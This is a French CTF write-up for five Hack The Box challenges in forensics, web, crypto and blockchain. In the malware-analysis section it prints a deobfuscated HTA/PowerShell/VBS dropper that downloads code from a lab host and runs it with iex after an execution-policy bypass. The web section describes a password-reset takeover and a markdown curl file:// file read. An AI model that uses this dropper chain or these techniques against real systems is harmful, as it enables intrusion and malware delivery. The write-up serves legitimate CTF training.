



# Writeup: 0xSpiizN

### Statistiques personnelles
- **Points :** 4025
- **Flags :** 5



# Forensics

## Frontier Exposed

### Description
En explorant le Docker fourni, plusieurs fichiers intéressants sont disponibles :
- `.bash_history`
- `.bash_logout`
- `.bashrc`
- `.profile`
- `dirs.txt`
- `exploit.sh`
- `nmap_scan_results.txt`
- `vulmap-linux.py`

### Recherche d'informations senssibles

Après avoir téléchargé ces fichiers, en cherchant des informations senssibles, nous trouvons les identifiants d'accès à un C2 dans **`.bash_history`** :
```
$ grep -n pass *
exploit.sh:14:echo ./PoC.sh targets.txt /etc/passwd
exploit.sh:21:# PoC.sh targets.txt /etc/passwd
Untitled.bash_history:15:/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
vulmap-linux.py:194:            pass
```

### Décodage du flag

Cette chaîne est encodée en Base64. Nous la décodons pour obtenir le flag :
```
$ echo "SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9" | base64 -d
HTB{C2_cr3d3nt14ls_3xp0s3d}
```

**FLAG**: `HTB{C2_cr3d3nt14ls_3xp0s3d}`

## Wanter Alive

### Décodage n°1: Script Javascript

Un seul fichier, wanter.hta, est fourni. Il contient un script JavaScript obfusqué, avec des caractères encodés en URL (e.g. %20). Pour le décoder, j'ai utilisé le script suivant :
```py
import urllib.parse

# Ouvrir le fichier
with open("../wanted.hta", mode="r") as f:
    encoded_string = f.read()

# Décoder les caractères %??
decoded_string = encoded_string
for i in range(10):
    decoded_string = urllib.parse.unquote(decoded_string)

print(decoded_string)
```

Le script décodé contient un bloc de code PowerShell avec une chaîne Base64 :
```powershell
iex($(iEX('[SYsTeM.TeXt.EnCoding]'+[chAr]0X3A+[CHAr]0X3A+'uTf8.geTSTring([SYstem.ConVERT]'+[chAR]58+[CHAR]58+'fRoMBASE64string('+[CHar]0X22+'JGVhNmM4bXJUICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgPSAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIEFkZC1UeXBlICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW1lTUJlckRlZmluSVRJb24gICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAnW0RsbEltcG9ydCgidVJMbU9OLmRsTCIsICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgQ2hhclNldCA9IENoYXJTZXQuVW5pY29kZSldcHVibGljIHN0YXRpYyBleHRlcm4gSW50UHRyIFVSTERvd25sb2FkVG9GaWxlKEludFB0ciAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIFBHLHN0cmluZyAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIENmbXIsc3RyaW5nICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgYVV2eVZCUkQsdWludCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGZmWWxEb2wsSW50UHRyICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgb0ZYckloKTsnICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW5BTUUgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAiU3V4dFBJQkp4bCIgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAtTmFtRXNQQWNFICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgbklZcCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIC1QYXNzVGhydTsgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAkZWE2YzhtclQ6OlVSTERvd25sb2FkVG9GaWxlKDAsImh0dHA6Ly93YW50ZWQuYWxpdmUuaHRiLzM1L3dhbnRlZC50SUYiLCIkZU52OkFQUERBVEFcd2FudGVkLnZicyIsMCwwKTtTVEFSdC1zbGVlUCgzKTtzdEFSdCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICIkZW5WOkFQUERBVEFcd2FudGVkLnZicyI='+[cHar]0X22+'))')))"
```

### Décodage n°2: Script PowerShell

En décodant le grand base64, on a:
```
$ echo "JGVhNmM4bXJUICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgPSAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIEFkZC1UeXBlICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW1lTUJlckRlZmluSVRJb24gICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAnW0RsbEltcG9ydCgidVJMbU9OLmRsTCIsICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgQ2hhclNldCA9IENoYXJTZXQuVW5pY29kZSldcHVibGljIHN0YXRpYyBleHRlcm4gSW50UHRyIFVSTERvd25sb2FkVG9GaWxlKEludFB0ciAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIFBHLHN0cmluZyAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIENmbXIsc3RyaW5nICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgYVV2eVZCUkQsdWludCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGZmWWxEb2wsSW50UHRyICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgb0ZYckloKTsnICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW5BTUUgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAiU3V4dFBJQkp4bCIgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAtTmFtRXNQQWNFICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgbklZcCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIC1QYXNzVGhydTsgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAkZWE2YzhtclQ6OlVSTERvd25sb2FkVG9GaWxlKDAsImh0dHA6Ly93YW50ZWQuYWxpdmUuaHRiLzM1L3dhbnRlZC50SUYiLCIkZU52OkFQUERBVEFcd2FudGVkLnZicyIsMCwwKTtTVEFSdC1zbGVlUCgzKTtzdEFSdCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICIkZW5WOkFQUERBVEFcd2FudGVkLnZicyI" | base64 -d
$ea6c8mrT                                 =                                 Add-Type                                 -meMBerDefinITIon                                 '[DllImport("uRLmON.dlL",                                 CharSet = CharSet.Unicode)]public static extern IntPtr URLDownloadToFile(IntPtr                                 PG,string                                 Cfmr,string                                 aUvyVBRD,uint                                 ffYlDol,IntPtr                                 oFXrIh);'                                 -nAME                                 "SuxtPIBJxl"                                 -NamEsPAcE                                 nIYp                                 -PassThru;                                 $ea6c8mrT::URLDownloadToFile(0,"http://wanted.alive.htb/35/wanted.tIF","$eNv:APPDATA\wanted.vbs",0,0);STARt-sleeP(3);stARt
```

Le script mentionne une URL menant à un nouveau fichier : http://wanted.alive.htb/35/wanted.tIF.

### Décodage n°3: Script Visual Basic

Dans celui-ci, on trouve un morceau de code qui manipule des base64:
```
If Not mesor() Then
        
        On Error Resume Next

        latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
        latifoliado = latifoliado & "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
        latifoliado = latifoliado & "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
        latifoliado = latifoliado & "CcpKSkpd2FudGVkCgd2FudGVkCg"
        
        Dim parrana
        parrana = "d2FudGVkCg"

        Dim arran
        arran =" d2FudGVkCg  d2FudGVkCg "
        arran = arran & "$d2FudGVkCgCod2FudGVkCgd"
        arran = arran & "id2FudGVkCggod2FudGVkCg "
        arran = arran & "d2FudGVkCg" & latifoliado & "d2FudGVkCg"
        arran = arran & "$d2FudGVkCgOWd2FudGVkCgj"
        arran = arran & "ud2FudGVkCgxdd2FudGVkCg "
        arran = arran & "=d2FudGVkCg [d2FudGVkCgs"
        arran = arran & "yd2FudGVkCgstd2FudGVkCge"
        arran = arran & "md2FudGVkCg.Td2FudGVkCge"
        arran = arran & "xd2FudGVkCgt.d2FudGVkCge"
        arran = arran & "nd2FudGVkCgcod2FudGVkCgd"
        arran = arran & "id2FudGVkCgngd2FudGVkCg]"
        arran = arran & ":d2FudGVkCg:Ud2FudGVkCgT"
        arran = arran & "Fd2FudGVkCg8.d2FudGVkCgG"
        arran = arran & "ed2FudGVkCgtSd2FudGVkCgt"
        arran = arran & "rd2FudGVkCgind2FudGVkCgg"
        arran = arran & "(d2FudGVkCg[sd2FudGVkCgy"
        arran = arran & "sd2FudGVkCgted2FudGVkCgm"
        arran = arran & ".d2FudGVkCgCod2FudGVkCgn"
        arran = arran & "vd2FudGVkCgerd2FudGVkCgt"
        arran = arran & "]d2FudGVkCg::d2FudGVkCgF"
        arran = arran & "rd2FudGVkCgomd2FudGVkCgb"
        arran = arran & "ad2FudGVkCgsed2FudGVkCg6"
        arran = arran & "4d2FudGVkCgStd2FudGVkCgr"
        arran = arran & "id2FudGVkCgngd2FudGVkCg("
        arran = arran & "$d2FudGVkCgcod2FudGVkCgd"
        arran = arran & "id2FudGVkCggod2FudGVkCg)"
        arran = arran & ")d2FudGVkCg;pd2FudGVkCgo"
        arran = arran & "wd2FudGVkCgerd2FudGVkCgs"
        arran = arran & "hd2FudGVkCgeld2FudGVkCgl"
        arran = arran & ".d2FudGVkCgexd2FudGVkCge"
        arran = arran & " d2FudGVkCg-wd2FudGVkCgi"
        arran = arran & "nd2FudGVkCgdod2FudGVkCgw"
        arran = arran & "sd2FudGVkCgtyd2FudGVkCgl"
        arran = arran & "ed2FudGVkCg hd2FudGVkCgi"
        arran = arran & "dd2FudGVkCgded2FudGVkCgn"
        arran = arran & " d2FudGVkCg-ed2FudGVkCgx"
        arran = arran & "ed2FudGVkCgcud2FudGVkCgt"
        arran = arran & "id2FudGVkCgond2FudGVkCgp"
        arran = arran & "od2FudGVkCglid2FudGVkCgc"
        arran = arran & "yd2FudGVkCg bd2FudGVkCgy"
        arran = arran & "pd2FudGVkCgasd2FudGVkCgs"
        arran = arran & " d2FudGVkCg-Nd2FudGVkCgo"
        arran = arran & "Pd2FudGVkCgrod2FudGVkCgf"
        arran = arran & "id2FudGVkCgled2FudGVkCg "
        arran = arran & "-d2FudGVkCgcod2FudGVkCgm"
        arran = arran & "md2FudGVkCgand2FudGVkCgd"
        arran = arran & " d2FudGVkCg$Od2FudGVkCgW"
        arran = arran & "jd2FudGVkCguxd2FudGVkCgD"
        arran = descortinar(arran, parrana, "")
            
        Dim sandareso
        sandareso = "pd2FudGVkCgo"
        sandareso = sandareso & "wd2FudGVkCgr"
        sandareso = sandareso & "sd2FudGVkCge"
        sandareso = sandareso & "ld2FudGVkCgl -cd2FudGVkCgommad2FudGVkCgnd "
        sandareso = descortinar(sandareso, parrana, "")

        sandareso = sandareso & arran

        Dim incentiva
        Set incentiva = CreateObject("WScript.Shell")
        incentiva.Run sandareso, 0, False 
        WScript.Quit(rumbo)
            
End If
''''''''''''''''''''    
' Escapes non XML chars
```

La fontion `descortinar(arran, parrana, "")` est l'équivalent d'un `arran.replace(parrana, "")` en python.

On créé un script pour décoder la variable `latifoliado` :
```python
import base64

# Replace base64
parrana = "d2FudGVkCg"
latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTeXN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGluZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgycCcpKSkpd2FudGVkCgd2FudGVkCg"

# Replaced base64
replaced = latifoliado.replace(parrana, "")

# Decode the base64 string
decoded = base64.b64decode(replaced).decode()

print(decoded)
```

Le script nous retourne ceci:
```
$ python3 descortinar.py 
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((new-object system.net.webclient).downloadstring('http://wanted.alive.htb/cdba/_rp'))))
```

On voit une nouvelle URL dans le code: http://wanted.alive.htb/cdba/_rp.

### Récupération du FLAG

En navigant sur la nouvelle url, on obtient le flag:


**FLAG**: `HTB{c4tch3d_th3_m4lw4r3_w1th_th3_l4ss0_0f18e875617fe4fb64ef8334727b549b}`

# Web

## **Armaxis**

### Exploration initiale

- **Ports disponibles** :
  - **Port 1337** : Site web d'Armaxis.
  - **Port 8080** : Service d'e-mails pour `test@email.htb`.

### Observations

Fonctions de la page de connexion:
- **Se connecter**
- **S'inscrire**
- **Réinitialiser** son mot de passe


### Analyse du reset de mot de passe

En observant le code source, on remarque une faille dans la gestion de la réinitialisation des mots de passe :

```javascript
router.post("/reset-password", async (req, res) => {
  const { token, newPassword, email } = req.body; // Added 'email' parameter
  if (!token || !newPassword || !email)
    return res.status(400).send("Token, email, and new password are required.");

  try {
    const reset = await getPasswordReset(token);
    if (!reset) return res.status(400).send("Invalid or expired token.");

    const user = await getUserByEmail(email);
    if (!user) return res.status(404).send("User not found.");

    await updateUserPassword(user.id, newPassword);
    await deletePasswordReset(token);

    res.send("Password reset successful.");
  } catch (err) {
    console.error("Error resetting password:", err);
    res.status(500).send("Error resetting password.");
  }
});
```

L’e-mail utilisé pour réinitialiser le mot de passe est **pris dans la requête**, et non validé par rapport à celui auquel le token a été envoyé.

### Exploitation : accès au panneau administrateur

1. **Demande de réinitialisation** pour `test@email.htb`.
2. **Réception du token** sur le service de messagerie.
3. **Interception de la requête** POST.
4. **Substitution de l'e-mail** dans la requête par celui de l'administrateur (visible dans le code source).
5. **Envoi de la requête** avec le nouveau mot de passe.

On vois ici que la requête a fonctionné (`Password reset successful`) :


### Fonction d'ajout d'armes

Une fois connecté en tant qu’admin, une fonction permet d’ajouter une arme avec une note en **Markdown**. Analyse du code correspondant :

```javascript
function parseMarkdown(content) {
    if (!content) return '';
    return md.render(
        content.replace(/\!\[.*?\]\((.*?)\)/g, (match, url) => {
            try {
                const fileContent = execSync(`curl -s ${url}`);
                const base64Content = Buffer.from(fileContent).toString('base64');
                return ``;
            } catch (err) {
                console.error(`Error fetching image from URL ${url}:`, err.message);
                return `<p>Error loading image: ${url}</p>`;
            }
        })
    );
}
```

La fonction remplace les images Markdown (``) par une balise html <code>img</code> en récupérant le contenu de l'image par une requête `curl`.
La fonction ne filtre pas les URL données donc on peut lire un fichier local via: `file://`.

### Exploitation : extraction du flag

Ajout d'une arme avec ce payload:
```markdown

```


L'image est donc remplacée par son contenu en base64


#### Décodage

Le contenu base64 récupéré :

```bash
$ echo "SFRCe2wwMGswdXRfZjByX200cmtkMHduX0xGMV8xbl93MWxkIV8zODI2NmM1NTliZGVjYmJmNTM5MmI1YjRhN2QwOTI1Mn0=" | base64 -d
HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_38266c559bdecbbf5392b5b4a7d09252}
```

**FLAG :**  
`HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_38266c559bdecbbf5392b5b4a7d09252}`

# Crypto

## **MuTLock**

### Analyse

Le fichier **`source.py`** révèle que le chiffrement repose sur un **timestamp**. Le comportement des clés dépend de la parité de ce dernier :

- **Timestamp pair** :
  - `key_seed` : entier aléatoire entre 1 et 1000.
  - `xor_key = 42`

- **Timestamp impair** :
  - `key_seed = 42`
  - `xor_key` : entier aléatoire entre 1 et 255.

### Exploitation : bruteforce

#### Description de l'attaque

Les possibilitées pour `key_seed` et `xor_key` étant relativement petites, un bruteforce est envisageable pour tester toutes les possibilitées.

Nous savons sur le flag qu'il commence par `HTB{` et se termine par `}`. Il ne contient que des caractères imprimables.

#### Script Python

Voici le script utilisé pour bruteforcer :

```python
# Author: 0xSpiizN
## Challenge: crypto_multlock
## Description: Reverse from source.py file to get the flag

# Import modules
import string
import random
import base64

# Define the function generate_key
def generate_key(seed, length=16):
    random.seed(seed)
    key = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(length))
    return key

# Polyalphabetic

## Polyalphabetic encryption
def polyalphabetic_encrypt(plaintext, key):
    key_length = len(key)
    ciphertext = []
    for i, char in enumerate(plaintext):
        key_char = key[i % key_length]
        encrypted_char = chr((ord(char) + ord(key_char)) % 256)
        ciphertext.append(encrypted_char)
    return base64.b64encode(''.join(ciphertext).encode()).decode()

## Polyalphabetic decryption
def polyalphabetic_decrypt(ciphertext, key):
    try:
        ciphertext = base64.b64decode(ciphertext).decode()
        key_length = len(key)
        plaintext = []
        for i, char in enumerate(ciphertext):
            key_char = key[i % key_length]
            decrypted_char = chr((ord(char) - ord(key_char)) % 256)
            plaintext.append(decrypted_char)
        return ''.join(plaintext)
    except Exception as e:
        return None

# Xor

## Xor cipher
def xor_cipher(text, key):
    return bytes([ord(c) ^ key for c in text])

## Xor decipher
def xor_decipher(text, key):
    return bytes([c ^ key for c in text])

# Filter function to ensure valid output
def is_valid_output(text):
    return all(c in string.printable for c in text)

def main():
    assert polyalphabetic_decrypt(ciphertext=polyalphabetic_encrypt(plaintext="test", key="OhbVrpoiVgRV5IfL"), key="OhbVrpoiVgRV5IfL") == "test" # Test de fonctionnement de la fonction polyalphabetic_decrypt
    assert xor_decipher(text=xor_cipher(text="test", key=42), key=42).decode() == "test" # Test de fonctionnement de la fonction xor_decipher

    # Initialize the flag list
    flag_hallf = []

    # Split the flag
    with open("../src/output.txt", "r") as f:
        encrypted_flags = f.read().splitlines()

    # Brute force the flag
    print("[+] Searching for the flag...")
    for encrypted_flag in encrypted_flags:
        for key_seed in range(1, 1001):
            for xor_key in range(1, 256):
                key = generate_key(key_seed)
                encrypted_half = bytes.fromhex(encrypted_flag)
                encrypted_half = xor_decipher(encrypted_half, xor_key)
                encrypted_half = polyalphabetic_decrypt(encrypted_half, key)

                if encrypted_half is not None:
                    if (encrypted_half.startswith("HTB{") or encrypted_half.endswith("}")) and (is_valid_output(encrypted_half)):
                        print(f"[+] One part found: {encrypted_half}")
                        flag_hallf.append(encrypted_half)
    
    print("[+] FLAG:", "".join(flag_hallf))
    

if __name__ == "__main__":
    main()
```

#### Résultat

Exécution du script :

```bash
$ python3 decrypt.py
[+] Searching for the flag...
[+] One part found: HTB{timestamp_based_encrypt
[+] One part found: ion_is_so_secure_i_promise}
[+] FLAG: HTB{timestamp_based_encryption_is_so_secure_i_promise}
```

**FLAG :**  
`HTB{timestamp_based_encryption_is_so_secure_i_promise}`

# Blockchain

## CryoPod

Le contrat `CryoPod` permet de sauvegarder un `Pod` personnel onchain. Chaque "Pod" contient un champ `_data` avec un peu d'informations.

Dans le contrat, il existe un évenement `PodStored` qui représente chaque élément stocké sur la blockchain.

Je fais donc un script en JavaScript pour récupérer la liste des évenements `PodStored` survenus sur ce contrat:
```javascript
// Author: 0xSpiizN
//// Challenge: blockchain_cryopod
//// Description: Get all stored pods

const { ethers } = require('ethers');

// Serveur RPC
const provider = new ethers.JsonRpcProvider("http://94.237.50.250:33407/");

// Mes informations
const privateKey = "c887873437dfffaaa54fa76a6c68fd7d12d9dcbf9df07a8e8cb4d2d2dad58e10";
const wallet = new ethers.Wallet(privateKey, provider);

// Adresses des contrats
const cryoPodAddress = "0xE1bFf0FBF55F0bBB07ccc72361A2A20A321F0fb5";
const setupAddress = "0x0a30a39C4B5758856C1Dd9188Ce1151c4904E2b1";

// ABI pour CryoPod
const cryoPodABI = [
  "function storePod(string memory _data) external",
  "event PodStored(address indexed user, string data)"
];

// ABI pour Setup
const setupABI = [
  "function isSolved(string calldata flag) public view returns (bool)"
];

// Contrats
const cryoPodContract = new ethers.Contract(cryoPodAddress, cryoPodABI, wallet);
const setupContract = new ethers.Contract(setupAddress, setupABI, wallet);

// Main
async function main() {
  const filter = cryoPodContract.filters.PodStored();  // No filter, get all events
  const events = await cryoPodContract.queryFilter(filter);

  // Extract and log the stored data
  events.forEach((event) => {
    console.log(`- Address: ${event.args.user}, Data: ${event.args.data}`);
  });
}

main().catch((error) => {
  console.error(error);
});
```

Nous obtenons beaucoup d'informations en l'éxécutant :
```
- Address: 0xDc35B5c52774F2bc6BAfc6d774b3F39A5ce2dE32, Data: **A Tardigrade Can Survive in Space**: Tardigrades, also known as water bears, are microscopic invertebrates renowned for their ability to withstand extreme conditions, including the vacuum and radiation of outer space. This resilience is primarily due to their capacity to enter a desiccated state called cryptobiosis, where their metabolic activities nearly cease, allowing them to survive prolonged periods without water and endure harsh environments.
- Address: 0x845c557B1Dd2da4712d2dBa0d29bdadd1afeA8BB, Data: The Amogus meme is a surreal and simplified spin-off of the online multiplayer game Among Us, developed by InnerSloth. This game, released in 2018, involves players taking on the roles of Crewmates and Impostors in a spaceship setting. The game's popularity skyrocketed in 2020 during the COVID-19 pandemic, and it spawned countless memes. The Amogus meme is one of the strangest and most iconic. The word 'Amogus' is a humorous corruption of the game's title, Among Us. This distortion likely arose from casual or rushed pronunciations of the name. The meme often pairs the game's simplistic Crewmate characters (bean-shaped astronauts) with exaggerated humor or absurd captions.
- Address: 0x91e8bf2C02603D236CD3D6Ea852E63ED9f13CcF3, Data: **Bitcoin's 100k Milestone (2024)**: On December 4, 2024, Bitcoin surpassed the $100,000 mark for the first time in its history. This significant milestone was driven by increased institutional adoption, the approval of Bitcoin exchange-traded funds (ETFs) in the U.S., and a favorable regulatory environment under President Donald Trump's administration. The surge in Bitcoin's value reflects its growing acceptance as a mainstream financial asset and a hedge against traditional market fluctuations. The year 2024 also witnessed unprecedented growth in cryptocurrency adoption worldwide. The number of cryptocurrency owners reached 562 million, marking a 34% increase from the previous year and representing approximately 6.8% of the global population.
```

Dans ce tas d'informations, nous effectuons un `grep` pour chercher le motif du flag:
```
$ node getPods.js | grep HTB
- Address: 0x91e8bf2C02603D236CD3D6Ea852E63ED9f13CcF3, Data: HTB{h3ll0_ch41n_sc0ut3r}
```

**FLAG**: `HTB{h3ll0_ch41n_sc0ut3r}`
